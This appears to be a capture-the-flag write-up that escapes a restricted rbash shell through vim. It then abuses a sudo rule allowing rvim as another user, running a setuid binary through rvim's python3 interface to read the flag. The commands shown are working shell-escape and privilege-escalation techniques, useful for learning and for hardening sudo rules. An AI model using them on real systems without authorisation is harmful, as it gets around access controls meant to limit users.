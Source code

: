![description](images/description.png)

Upon connecting to the server, I tried running ls and saw that there's a flagReader file.

By trying to run it, we see that we're in a restricted environment and the error messages show that we're running in rbash.
![rbash output](images/rbash.png)

To escape rbash you can run the following in vim:
~~~~
:set shell=/bin/sh
:shell
~~~~

Lets see if there's setuid on the flagReader file:
~~~~
$ ls -al flagReader
---S--x--- 1 topsecretuser secretuser 8768 Feb 25 08:42 flagReader
~~~~
flagReader is executable by secretuser, so lets try to find a way to execute things as secretuser:

First I tried listing all files that are setuid to run as secretuser:
~~~~
find / -user secretuser -perm -4000 -exec ls -ldb {} \; 2> /dev/
~~~~

apparently no other binary will allow us to run as secretuser

Now lets see if there's anything that sudo will allow us to run with higher privileges:
~~~~
$ sudo -l
Matching Defaults entries for ctfuser on
    ip-172-31-31-196.us-west-2.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctfuser may run the following commands on
        ip-172-31-31-196.us-west-2.compute.internal:
    (ALL) NOPASSWD: /usr/bin/sudo -l
    (secretuser) NOPASSWD: /usr/bin/rvim
~~~~
So this means we can run rvim as secretuser:
~~~~
$ sudo -u secretuser rvim
~~~~
rvim doesn't allow you to run shell commands, so we can't use the same shell spawning technique as before. However, rvim does allow you to run python code. Because of this we can just execute flagReader with python: 
~~~~
:py3 import subprocess
:py3 print(subprocess.check_output(['/home/ctfuser/flagReader']))
~~~~
and we get the flag:
~~~~
flag{rVim_is_no_silverbullet!!!111elf}
~~~~
![flag](images/flag.png)